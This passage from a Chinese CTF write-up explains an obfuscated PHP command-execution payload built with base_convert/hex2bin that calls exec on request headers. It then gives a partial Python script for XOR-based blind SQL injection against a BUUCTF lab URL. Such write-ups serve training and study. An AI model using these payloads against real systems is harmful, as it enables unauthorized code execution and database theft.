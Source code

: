分析：

```php
base_convert(37907361743,10,36) => "hex2bin"//base_convert用于将一个数字在一个任意的进制之间进行转换，这里是将十进制转化为36进制，Base36 编码是一种将数字数据转换为可打印字符的编码方式，10个数字加26个英文字母，正好用36个表示出来
dechex(1598506324) => "5f474554"//dechex 是 PHP 中的一个内置函数，用于将十进制数转换为十六进制表示。
$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
```

另一种payload是这样

`$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})`
分析：

```bash
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})
//操作xx和yy，中间用逗号隔开，echo都能输出
echo xx,yy
```

既然不能$_GET，那就header传

![image-20230627140411418](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230627140411418.png)

本人测试不成功

## 16.[极客大挑战 2019]FinalSQL（异或符号进行sql盲注）



​							 ![image-20230627164953712](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230627164953712.png)					

题目界面已经给出提示，盲注即可，点了点紫色的小方框，出现注入点

​							 					![image-20230627165042293](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230627165042293.png)

fuzz测试后

可以用  ^ 来进行盲注

因为 1 ^ 1 = 0 (0^0)，回显错误

![image-20230627165406530](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230627165406530.png)

​		1 ^ 0 = 1 (0^1)，回显正常

![image-20230627165317074](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230627165317074.png)

脚本：

```python
import requests
import time
 
url="http://da5c6481-fdd8-4dc2-912a-8732691bd08b.node4.buuoj.cn:81/search.php"
 
# 0^(ord(substr(database(),1,1))>32)
def getDatabase():
    database_name=""
    for x in range(1,1000):
        low = 32
        hight = 127
        mid=(low+hight)//2
        while low < hight:
            params={
                "id":"0^(ord(substr((select(database())),"+str(x)+",1))>"+str(mid)+")"
```